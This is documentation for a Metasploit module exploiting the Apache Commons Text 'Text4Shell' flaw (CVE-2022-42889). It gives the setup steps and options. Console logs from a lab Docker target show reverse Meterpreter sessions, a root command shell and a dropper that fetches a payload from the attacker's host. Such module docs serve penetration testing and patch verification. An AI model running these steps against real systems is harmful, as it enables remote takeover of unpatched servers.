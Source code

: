 ## Vulnerable Application

This exploit takes advantage of the StringSubstitutor interpolator class,
which is included in the Commons Text library. A default interpolator
allows for string lookups that can lead to Remote Code Execution. This
is due to a logic flaw that makes the “script”, “dns” and “url” lookup
keys interpolated by default, as opposed to what it should be, according
to the documentation of the StringLookupFactory class. Those keys allow
an attacker to execute arbitrary code via lookups primarily using the
"script" key.

In order to exploit the vulnerabilities, the following requirements must
be met:

    Run a version of Apache Commons Text from version 1.5 to 1.9
    Use the StringSubstitutor interpolator
    Target should run JDK < 15

## Testing
Follow the steps in [this](https://github.com/karthikuj/cve-2022-42889-text4shell-docker?tab=readme-ov-file) PoC to setup the environment

## Verification Steps
1. Setup the application
1. Start msfconsole
1. Do: `use apache_commons_text4shell`
1. Set the required options: `RHOST, RPORT, TARGETURI, PARAM, METHOD, TARGET, LHOST`
1. Do: `run`

## Options

### PARAM
The parameter vulnerable to the exploit.

### METHOD
The HTTP method to use. Default: `GET`

### TARGETURI
The URI to target. Default: `/`

## Scenarios

### Apache Commons Text 1.8 on Alpine Linux v3.9

Check:
```
msf6 exploit(multi/http/apache_commons_text4shell) > check

[*] Performing command injection test issuing a sleep command of 5 seconds.
[+] 172.17.0.2:8080 - The target is vulnerable. Successfully tested command injection.
```

Target: java
```
msf6 > use exploit/multi/http/apache_commons_text4shell
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_commons_text4shell) > set lhost docker0
lhost => 172.17.0.1
msf6 exploit(multi/http/apache_commons_text4shell) > set rhost 172.17.0.2
rhost => 172.17.0.2
msf6 exploit(multi/http/apache_commons_text4shell) > set rport 8080
rport => 8080
msf6 exploit(multi/http/apache_commons_text4shell) > set targeturi /text4shell/attack
targeturi => /text4shell/attack
msf6 exploit(multi/http/apache_commons_text4shell) > set param search
param => search
msf6 exploit(multi/http/apache_commons_text4shell) > set target 0
target => 0
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/cuGgfHN/
[*] Sending stage (57692 bytes) to 172.17.0.2
[*] Meterpreter session 16 opened (172.17.0.1:4444 -> 172.17.0.2:39832) at 2023-12-23 23:03:31 +0530
[*] Server stopped.

meterpreter >
```

Target: Linux Command
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 3
target => 3
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Command shell session 17 opened (172.17.0.1:4444 -> 172.17.0.2:36446) at 2023-12-23 23:04:10 +0530

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Target: Linux Dropper
```
msf6 exploit(multi/http/apache_commons_text4shell) > set target 4
target => 4
msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Using URL: http://172.17.0.1:8080/L8kRU1E8O/
[*] Client 172.17.0.2 requested /L8kRU1E8O/
[*] Sending payload to 172.17.0.2
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 18 opened (172.17.0.1:4444 -> 172.17.0.2:39580) at 2023-12-23 23:04:35 +0530
[*] Server stopped.

meterpreter >
```
